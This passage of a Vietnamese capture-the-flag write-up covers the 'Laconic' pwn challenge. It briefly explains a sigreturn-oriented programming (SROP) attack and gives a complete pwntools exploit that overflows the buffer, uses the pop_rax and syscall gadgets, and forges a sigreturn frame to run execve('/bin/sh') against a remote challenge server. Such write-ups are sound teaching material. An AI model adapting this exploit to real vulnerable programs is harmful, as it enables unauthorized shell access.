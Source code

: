 ```python
p.sendlineafter(b">", payload)

p.interactive()

```

## Laconic

- bài này chỉ là 1 bài `SROP` thông thường , không có gì quá đặc biệt

- ta thấy nó sẽ gồm những đoạn code asm , và ta cũng có `bof`  + các gadget như `pop_rax` và `syscall` 

![image](https://hackmd.io/_uploads/H1k7O2XTyx.png)

- và hơn thế nữa là có luôn địa chỉ chứa /bin/sh  và ta sẽ đỡ phải tạo nó 

![image](https://hackmd.io/_uploads/HJDlthmpkx.png)

exp: 

```python
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./laconic')

#p = process()
p = remote('94.237.60.63',58639)
"""
gdb.attach(p,gdbscript='''
           b*0x43015
           c
           ''')
           """
pop_rax = 0x0000000000043018
syscall_ret = 0x0000000000043015
bss = 0x44000-0x200

frame = SigreturnFrame()
frame.rax = 0x3b
frame.rdi = 0x43238
frame.rsi = 0
frame.rdx = 0
frame.rsp = bss
frame.rip = syscall_ret

pl = b'a'*8 + p64(pop_rax) + p64(0xf) +  p64(syscall_ret) + bytes(frame)
bss = 0x44000-0x200


input()
p.send(pl)

p.interactive()
```
